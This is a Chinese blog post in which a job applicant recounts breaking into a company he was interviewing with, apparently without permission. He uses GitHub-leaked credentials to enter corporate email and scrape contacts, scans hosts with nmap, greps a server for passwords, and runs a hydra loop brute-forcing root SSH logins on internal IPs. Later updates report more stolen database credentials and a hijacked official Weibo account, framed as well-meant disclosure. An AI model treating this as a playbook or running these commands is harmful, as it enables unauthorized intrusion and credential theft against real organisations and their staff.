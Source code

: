 ```yaml
---
layout: post
title: 实习之登堂入室
categories: HowTo
tags: 实习笔记
---
```


# 但行好事，莫问前程
> 解决方案

* <font color="red"> 删除Github上的敏感配置信息(包括但不限于微信Appkey,secert,Email账号，mlab上的DB配置，产品AppKey,Secert, ELK服务器账号密码等信息且不只是一个配置文件中出现)或着撤下Github上所有的公司产品代码 </font>
* <font color="red">更改邮箱密码为复杂密码(但不止包括邮箱，其他可被搜索并和公司相关联的其他平台账号)，更改服务器为无规律密码(而非公司名加服务器功能加ip前几位构成)，</font>
* <font color="red">更新数据库中已经暴露的数据。</font>
* <font color="red">加强服务器配置，例如防SSH爆破，适当清理bash的history，设置白名单访问等</font>
* <font color="red"> 重要信息不可放置到外网上。</font>


#### 这是一次找实习之余，偶然接到这家公司的面试。出于对目标公司的好奇。当然只是作为对所中意公司的了解(之前是一点也不了解)，进行了小小的测试。目前所有已测试数据均已删除。不过经过此次测试发现越来越喜欢这家公司了。


1.故事的开始。

去官网看了一下，发现没有什么实质性的内容，而且不给注册。。好坑，不开心。而且只能从微信体验公司宣传的功能。于是抓包，看到API，猜了几次。觉得十分有趣。后来就去搜索引擎 `site:target.com` 不出意外发现了其他的相关域名。而且测试版的网站竟然还没下线(允许注册登录)。在这个网站注册了账号，尝试了一下基本功能，算是有了初步的了解。不过发现一个很不好的地方，就是API的设计，基本上全是用的GET，从后台取数据的时候，URL上一大串参数。而根据REST设计风格来看，其实这几个功能都应该是通过POST的方式，并且将请求的数据放到Body里比较好。 

2.Github上的数据泄露

一边从搜索引擎得到网站一些信息，然后去github尝试了一下，看看有没有人上传过代码。不尝试不知道，发现信息泄露十分严重。数个员工均在github上公开了代码。其中配置文件包括服务器，企业邮箱，db，ELK信息等。
拿出旁注工具，旁注得到域名
![旁注得到域名](/images//hackit/pangzhu_1.jpg)

同时登录企业邮箱，邮箱中并无重要信息。但是Get到了部分通讯录。有了通讯录就方便了很多。通讯录是Json格式的，看起来很费事，所以转成csv好点。

```shell
awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat tt.txt  >tempfile		   #直接合并数据
sed -n '2,6p' tempfile			#取第姓名行到第邮箱行
sed '2,3d' tempfile				#删除姓名到邮箱中的多余的二行。
cat tempfile | sed 's/,/\n/g'	#以逗号进行的行列转置，但是转置之后全部变成一列了
paste name.txt mail.txt  | awk '{printf "%s %s %s \n", $1 ,",",$2 }' > ConnectInfo.csv 					#两个不同的文件合并成两列到一个文件				  #
```

其实还可以用csvkit，csvkit的话一行命令就行了就`json2csv xx.json xx.csv`可以转成csv格式了。

而另一边旁注得到的信息需要进行一下整理，看看是不是有多个站点共同使用一个IP上的。不同工具不同字典大小，可以得到不同的结果。
> 使用
`awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat IpInfo.txt`

得到整理好的数据，可以看到有三个ip上同时每个上面部署了两个站点。当然后来换了个字典，发现其实不止这么多二级域名，一共有16个的样子吧。
![整理数据](/images//hackit/pangzhu_2.jpg)

这边得到了iplist就应该开始进行扫描了。使用 `nmap -A -Pn -iL IPlist.txt > IPScanresult.txt` 同时还有一个进行URL的扫描。当然这个时候我还在搜索信息。发现其使用一个XX部落，通过密码猜测进入。然后发现一个十分重要的东西。就是内网映射服务器的账号密码在那记载着呢。

![进来了](/images//hackit/RUKOUVPS.png)
进来之后发现其实还部署着docker，nginx，ELK等服务，但是这台服务器的性能上是真一般，而且网速超级慢。

3.服务器之上
> 进了服务器，开始看一下路由表映射，然后查看历史记录，在整个目录下递归搜索含有'pwd','password','xxx'的文件。查看历史记录发现`grep -rnw /home/ -e 'pwd'`



```shell
iplist="10.10.241.52
10.10.177.183
10.10.241.52
10.10.177.183
10.10.255.95
10.10.239.183
172.17.0.2
10.10.255.1
172.17.0.2
10.10.255.1
10.10.220.103
10.10.255.92
10.10.200.143
10.10.166.86
10.10.255.93
10.10.84.141
10.10.200.122
10.10.0.1
10.10.255.90
10.10.200.4
10.10.255.2
10.10.255.200
10.10.255.250
10.10.232.79"
 
echo "===Begin TEST==="
for ip in $iplist;
do
          hydra $ip -s 50001 ssh -l root -P passlist.txt
done
```

OVER_by_2016_11_12

现在是第二天早上11点(周日)：刚写完邮件通知对方。

ps:其他过程不想写了，昨天搞到将近两点，本来还打算看看面试题呢。不过也没什么可看的。哎，通知了对方。有的人说不要，有的人说要。还是，但行好事，莫问前程。希望ok。

![通知对方](/images//hackit/attention.jpg)

ps2:前几天和堂姐聊天，说要辞实习，重新找一份。姐说：年轻人就是好。是啊，年轻，棱角未平，阳光正好。现在我又佩服我的老姐了，能拿下全马，佩服你。


update:14号上午，还是不想看面试题。昨天发邮件通知之后，也没人回复个谢谢。邮箱密码虽然改了，但服务器还是没有修改。这次又测到4个DB服务器的账号密码。

![DBMSG](/images//hackit/msg1.jpg)

问了下HR面试我的面试官名字，找到之后，微博,github,知乎。发现我们两个的学习路线差不多。不知道今天下午的面试会怎么样？OK,嘿嘿。
update:14号上午11:00，好吧官方微博账号到手。

![weibohh](/images//hackit/weibo.png)
